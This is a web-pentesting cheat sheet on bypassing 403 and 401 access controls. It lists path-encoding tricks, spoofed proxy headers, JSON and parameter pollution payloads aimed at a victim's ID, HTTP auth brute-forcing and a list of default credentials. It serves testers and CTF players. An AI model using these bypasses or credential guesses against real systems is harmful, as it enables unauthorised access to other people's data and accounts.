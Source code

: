#### 403 Forbidden/Basic Authentication/401 Unauthorized \(bypass\)

* Try using **different verbs** to access the file: _GET, POST, INVENTED_
* If _/path_ is blocked, try using _**/**_**%2e/**path _\(if the access is blocked by a proxy, this could bypass the protection\). Try also_ /**%252e**/path \(double URL encode\)
* Try Unicode bypass: _/**%ef%bc%8f**path_ \(The URL encoded chars are like "/"\) so when encoded back it will be _//path_ and maybe you will have already bypassed the _/path_ name check
* Try to **stress the server** sending common GET requests \([It worked for this guy wit Facebook](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)\).
* **Change the protocol**: from http to https, or for https to http
* **Change Host header** to some arbitrary value \([that worked here](https://medium.com/@sechunter/exploiting-admin-panel-like-a-boss-fc2dd2499d31)\)
* **Other path bypasses**:
  * site.com/secret –&gt; HTTP 403 Forbidden
  * site.com/SECRET –&gt; HTTP 200 OK
  * site.com/secret/ –&gt; HTTP 200 OK
  * site.com/secret/. –&gt; HTTP 200 OK
  * site.com//secret// –&gt; HTTP 200 OK
  * site.com/./secret/.. –&gt; HTTP 200 OK
  * site.com/secret.json –&gt; HTTP 200 OK \(ruby\)
* **Other bypasses:**
  * /v3/users\_data/1234 --&gt; 403 Forbidden 
  * /v1/users\_data/1234 --&gt; 200 OK
  * {“id”:111} --&gt; 401 Unauthriozied
  * {“id”:\[111\]} --&gt; 200 OK
  * {“id”:111} --&gt; 401 Unauthriozied
  * {“id”:{“id”:111}} --&gt; 200 OK
  * {"user\_id":"&lt;legit\_id&gt;","user\_id":"&lt;victims\_id&gt;"} \(JSON Parameter Pollution\)
  * user\_id=ATTACKER\_ID&user\_id=VICTIM\_ID \(Parameter Pollution\)
* Go to [https://archive.org/web/](https://archive.org/web/) and check if in the past that file was **worldwide accessible**.
* **Fuzz the page**: Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force \(with a few combinations only\) and other techniques. To do all of this I have created the tool [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass).
  * `X-Originating-IP: 127.0.0.1` 
  * `X-Forwarded-For: 127.0.0.1` 
  * `X-Remote-IP: 127.0.0.1` 
  * `X-Remote-Addr: 127.0.0.1`
  * `X-ProxyUser-Ip: 127.0.0.1`
  * `X-Original-URL: 127.0.0.1`
  * If the **path is protected** you can try to bypass the path protection using these other headers:
    * `X-Original-URL: /admin/console`
    * `X-Rewrite-URL: /admin/console`
* **Guess the password**: Test the following common credentials. Do you know something about the victim? Or the CTF challenge name?
* [**Brute force**](../../brute-force.md#http-brute)**:** Try basic, digest and NTLM auth.

  {% code title="Common creds" %}
  ```text
  admin    admin
  admin    password
  admin    1234
  admin    admin1234
  admin    123456
  root     toor
  test     test
  guest    guest
  ```
  {% endcode %}
